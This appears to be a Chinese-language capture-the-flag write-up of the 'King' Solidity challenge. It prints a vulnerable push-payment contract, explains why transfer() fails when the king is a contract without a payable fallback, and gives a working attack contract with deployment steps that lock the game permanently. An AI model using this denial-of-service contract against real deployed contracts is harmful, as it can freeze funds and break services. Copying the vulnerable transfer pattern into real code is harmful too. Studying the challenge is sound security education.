 # King
关于合约push和pull方式的区别
```solidity
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract King is Ownable {

  address public king;
  uint public prize;

  function King() public payable {
    king = msg.sender;
    prize = msg.value;
  }

  function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
}
```

### 代码分析
```solidity
function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```
上述代码中，当需要交换king的时候，会向原来的king发送eth，然后将king交换给新的用户。注意`king.transfer(msg.value)`
只有2300的gas，如果原来的king为一个合约，并且没有fallback方法，或有fallback方法但执行的代码太多或恶意代码事，
那么它可以使该合约的交换king方法永远不能成功。

### 攻击合约
```solidity
pragma solidity ^0.4.18;


contract KingAttack {

  function doYourThing(address _target) public payable {
    if(!_target.call.value(msg.value)()) revert();
  }

  // OMG NO PAYABLE FALLBACK!!
}
```

### 攻击方法
1. 发布攻击合约
2. 调用攻击合约doYourThing(address)，同时转让>1eth（原king的eth数量为1eth）